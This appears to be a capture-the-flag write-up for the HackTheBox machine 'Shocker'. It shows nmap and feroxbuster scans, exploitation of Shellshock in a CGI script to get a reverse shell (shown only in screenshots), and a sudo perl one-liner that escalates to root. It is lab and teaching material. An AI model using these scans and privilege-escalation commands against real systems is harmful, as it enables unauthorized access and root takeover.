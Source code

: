 # Shocker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:22 EDT
Nmap scan report for 10.129.85.146
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-
```

Port 80 is open.

### Shellshock

When the webpage is visited, all we see is this:

<figure><img src="../../../.gitbook/assets/image (184) (3).png" alt=""><figcaption></figcaption></figure>

I did a `feroxbuster` script on the website.&#x20;

```
$ feroxbuster -u http://10.129.85.146 -f -n      

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.85.146
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.85.146/
403      GET       11l       32w      296c http://10.129.85.146/cgi-bin/
403      GET       11l       32w      294c http://10.129.85.146/icons/
403      GET       11l       32w      302c http://10.129.85.146/server-status/
```

I continued fuzzing and found a `user.sh` file. When downloaded, this is the response:

```http
HTTP/1.1 200 OK
Date: Wed, 03 May 2023 16:27:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 119

Content-Type: text/plain

Just an uptime test script

 12:27:22 up 40 min,  0 users,  load average: 0.58, 0.31, 0.11
```

The Content-Type was unique and I've never seen that before. A quick Google search on exploits regarding it led to Shellshock.&#x20;

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

This software bugs allows us to have RCE on the website because of how environments variables are handled poorly in some websites. We can test it out by sending requests to the `user.sh` file and seeing if any bash commands get executed.&#x20;

<figure><img src="../../../.gitbook/assets/image (161) (4).png" alt=""><figcaption></figcaption></figure>

So it does work. We can replace the `ping` command with a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (155) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Perl

When checking `sudo` permissions, we see this:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Based on GTFOBins, we just need to execute this to get a `root` shell.

{% code overflow="wrap" %}
```bash
sudo perl -e 'exec "/bin/bash";'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (188) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!

